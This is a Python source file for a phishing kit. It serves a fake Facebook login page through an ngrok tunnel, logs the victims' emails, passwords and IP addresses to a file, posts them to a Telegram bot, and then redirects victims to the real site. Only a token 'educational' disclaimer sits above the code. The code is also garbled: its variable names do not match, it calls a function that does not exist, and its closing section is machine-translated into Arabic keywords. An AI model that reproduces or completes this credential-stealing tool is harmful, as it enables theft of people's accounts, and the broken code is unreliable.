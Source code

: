 # !/usr/bin/env python3
# -*- coding: utf-8 -*-
# LEGAL DISCLAIMER: For educational purposes only. Unauthorized access to systems is illegal. Rebel at your own risk.

import os
import requests
import threading
from flask import Flask, request, redirect, render_template_string
from pyngrok import ngrok

# ░█▀▀░█░░░█▀█░█▀▀░█▀▄░█▀▀░▀█▀░█▀▀░█▀▄
# ░█▀▀░█░░░█░█░█▀▀░█▀▄░▀▀█░░█░░█▀▀░█▀▄
# ░▀░░░▀▀▀░▀▀▀░▀▀▀░▀░▀░▀▀▀░░▀░░▀▀▀░▀░▀

app = Flask(__name__)
ngrok.set_auth_token("YOUR_NGROK_AUTH_TOKEN")  # Replace with your ngrok token
public_url = ngrok.connect(5000).public_url  # Expose local server to internet

# ░█▄█░█▀█░█▀▄░█░█░█▀▀░█▀▀░█▀▀
# ░█░█░█░█░█░█░█░█░▀▀█░█▀▀░▀▀█
# ░▀░▀░▀▀▀░▀▀░░▀▀▀░▀▀▀░▀▀▀░▀▀▀

# Clone target login page (example: fake Facebook)
login_page = """
<!DOCTYPE html>
<html>
<head><title>Facebook - Log In</title></head>
<body>
    <form action="/login" method="POST">
        <input type="text" name="email" placeholder="Email">
        <input type="password" name="pass" placeholder="Password">
        <input type="submit" value="Log In">
    </form>
</body>
</html>
"""

# ░█▀▀░█▀█░█▀▄░█▀▀░█▀▀░▀█▀░█▀█░█▀▄░█▀▀
# ░█░░░█░█░█░█░█▀▀░▀▀█░░█░░█░█░█▀▄░▀▀█
# ░▀▀▀░▀▀▀░▀▀░░▀▀▀░▀▀▀░░▀░░▀▀▀░▀░▀░▀▀▀

@app.route('/')
def serve_phish():
    return render_template_string(login_page)

@app.route('/login', methods=['POST'])
def harvest_creds():
    email = request.form.get('email')
    password = request.form.get('pass')
    ip = request.remote_addr
    
    # Log stolen credentials
    with open("credentials.txt", "a") as f:
        f.write(f"{email}:{password} | IP: {ip}\n")
    
    # Exfiltrate via Telegram bot (replace with your bot token/chat ID)
    telegram_url = f"https://api.telegram.org/botYOUR_BOT_TOKEN/sendMessage"
    Slave = {
        "chat_id":"YOUR_CHAT_ID",
        "text": f"NEW HIT 🎣\nEmail: {email}\nPass: {password}\nIP: {ip}"
    }
    requests.post (telegram_url, data=payload)
    
    # إعادة التوجيه إلى الموقع الشرعي لتجنب الشكوك
    Redirection ("https://facebook.com")

# ░█▀▀░█▀█░█▀▄░█▀▀░█▀▀░█▀▀░█▀▀
# ░█░░░█░█░█▀▄░█▀▀░▀▀█░▀▀█░▀▀█
# ░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀

def start_flask ():
    app.run (port=5000)

def send_phish_link ():
    الطباعة (f"\n[!]Scam phishing URL: {public_url}/login";)
    # Optional: Adding SMS / Email Undesirable Logic Here

 إذا كان __الاسم__ =="__الرئيسية__":
    خيوط. Thread (target=start_flask).start ()
    threading.Thread (الهدف = send_phish_link).بدء ()
